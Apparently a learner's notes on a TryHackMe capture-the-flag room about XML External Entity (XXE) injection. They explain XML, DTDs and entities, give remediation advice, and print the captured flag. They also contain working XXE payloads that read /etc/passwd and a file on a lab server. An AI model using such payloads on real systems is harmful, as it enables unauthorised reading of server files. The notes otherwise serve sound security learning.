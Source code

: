 ******************************************************************************************************************************
                    Day 5: SOC-mas XX-what-ee?
******************************************************************************************************************************

Understand the basic concepts related to XMLXML handling data like a file drawer.
Explore XML External Entity (XXE) and its components
Learn how to exploit the vulnerability
Understand remediation measures

Extensible Markup Language (XML)
XML is a commonly used method to transport and store data in a structured format that humans and machines can easily understand.

Example

<people>
   <name>Glitch</name>
   <address>Wareville</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>

Document Type Definition (DTD)
A DTD is a set of rules that defines the structure of an XML document. Just like a database scheme, it acts like a blueprint, telling you what elements (tags) and attributes are allowed in the XML file.

Example

<!DOCTYPE people [
   <!ELEMENT people(name, address, email, phone)>
   <!ELEMENT name (#PCDATA)>
   <!ELEMENT address (#PCDATA)>
   <!ELEMENT email (#PCDATA)>
   <!ELEMENT phone (#PCDATA)>
]>

Entities
Entities in XML are placeholders that allow the insertion of large chunks of data or referencing internal or external files.

Entity reference = &<Entity>;

Example

<!DOCTYPE people [
   <!ENTITY ext SYSTEM "http://tryhackme.com/robots.txt">
]>
<people>
   <name>Glitch</name>
   <address>&ext;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>

We are specifically discussing external entities because it is one of the main reasons that XXE is introduced if it is not properly managed.

XML External Entity (XXE)
XXE is an attack that takes advantage of how XML parsers handle external entities.

Example

<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>Glitch</name>
   <address>&thmFile;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>

Disable External Entity Loading: The primary fix is to disable external entity loading in your XML parser. In PHP, for example, you can prevent XXE by setting libxml_disable_entity_loader(true) before processing the XML.
Validate and Sanitise User Input: Always validate and sanitise the XML input received from users. This ensures that only expected data is processed, reducing the risk of malicious content being included in the request. For example, remove suspicious keywords like /etc/host, /etc/passwd, etc, from the request.


******************************************
                Investigation
******************************************        

Wareville's WishVille

http://10.10.250.158
http://10.10.250.158/product.php
http://10.10.250.158/wishes/wish_21.txt

<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_2.txt"> ]>
                <wishlist>
                    <user_id>1</user_id>
                    <item>
                        <product_id>
&payload;</product_id>
                    </item>
                </wishlist>

http://10.10.250.158/CHANGELOG

commit 3f786850e387550fdab836ed7e6dc881de23001b (HEAD -> master, origin/master, origin/HEAD)
Author: Mayor Malware - Wareville <mayor@wareville.org>
Date:   Wed Dec 4 21:24:22 2024 +0200

    Fixed the wishlist.php page THM{m4y0r_m4lw4r3_b4ckd00rs}

commit 89e6c98d92887913cadf06b2adb97f26cde4849b (tag: v1.0.0)
Author: Software - Wareville <software@wareville.org>
Date:   Thu Dec 4 14:45:18 2024 +0200

    Almost done with the wishlists page, needs to handle XML parsing

commit 2b66fd261ee5c6cfc8de7fa466bab600bcfe4f69
Author: Software - Wareville <software@wareville.org>
Date:   Tue Dec 2 15:20:57 2024 +0200

    Finally done with the landing page and initial CSS

commit e983f374794de9c64e3d1c1de1d490c0756eeeff
Author: Software - Wareville <software@wareville.org>
Date:   Tue Dec 2 15:19:33 2024 +0200

    Initial commit






*****************************************************
                Commandline Arguments
*****************************************************











*****************************************************
                Section 1
*****************************************************

*****************************************************
                Section 2
*****************************************************

*****************************************************
                Section 3
*****************************************************